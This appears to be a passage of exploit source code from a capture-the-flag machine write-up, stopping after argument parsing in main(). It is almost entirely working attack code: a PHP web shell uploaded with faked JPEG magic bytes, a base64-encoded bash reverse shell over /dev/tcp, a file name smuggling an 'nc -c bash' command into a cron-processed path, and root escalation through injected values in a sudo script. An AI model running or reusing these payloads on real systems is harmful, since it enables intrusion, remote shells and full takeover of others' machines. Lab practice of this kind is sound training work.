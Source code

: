 ```py
'''Here come the Functions'''
# Handler for apache which will be opened in thread
def Handler(lport):
    hand = listen(lport).wait_for_connection()
    lport = lport + 1
    payload = "touch '/var/www/html/uploads/;nc -c bash %s %s'" %(lhost,lport)
    hand.send(b"%s" %payload.encode())
    hand.send(b"\n")
    hand.close()
    
def HandlerGulyRoot(lport):
    print("[+] Let's get root !! [+]")
    root = listen(lport).wait_for_connection()
    root.send(b"sudo /usr/local/sbin/changename.sh")
    root.send(b"\n")
    payload = 'a sh'.encode()
    root.sendlineafter(b'NAME', payload)
    root.sendlineafter(b'PROXY_METHOD', payload)
    root.sendlineafter(b'BROWSER_ONLY', payload)
    root.sendlineafter(b'BOOTPROTO', payload)
    root.interactive()
    
# Upload Malicious with magic hex changed
def maliciousUpload(rhost):
    print("[+] Let's upload the malicious php file !! [+]")
    url = "http://%s/upload.php" %rhost
    data = b'\xff\xd8\xff\xee\r\n\r\n<?php system($_REQUEST[\"cmd\"]); ?>'
    multipart_data = {
        'myFile': ('0x4rt3mis.php.jpeg', data, "image/jpeg"),
        'submit' : (None,"go")
    }
    upload = r.post(url, files=multipart_data, proxies=proxies)

# Trigger the reverse shell
def getReverse(rhost,lhost,lport):
    print("[+] Now Let's get the reverse shell! [+]")
    reverse = "bash -i >& /dev/tcp/%s/%s 0>&1" %(lhost,lport)
    message_bytes = reverse.encode('ascii')
    base64_bytes = base64.b64encode(message_bytes)
    base64_message = base64_bytes.decode('ascii')

    payload = {
    'cmd': 'echo ' + base64_message + '|base64 -d | bash'
}
    payload_str = urllib.parse.urlencode(payload, safe='|')
    new_lhost = re.sub("\.", "_", lhost)
    url = "http://"+ rhost + ":80/uploads/" + new_lhost + ".php.gif?"
    r.get(url, params=payload_str, proxies=proxies, cookies=r.cookies)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Local ip address or hostname', required=True)
    parser.add_argument('-lp', '--localport', help='Local port', required=True)
    args = parser.parse_args()
    
    global lhost
    rhost = args.target
    lport = args.localport
    lhost = args.localip

    '''Here we call the functions'''
```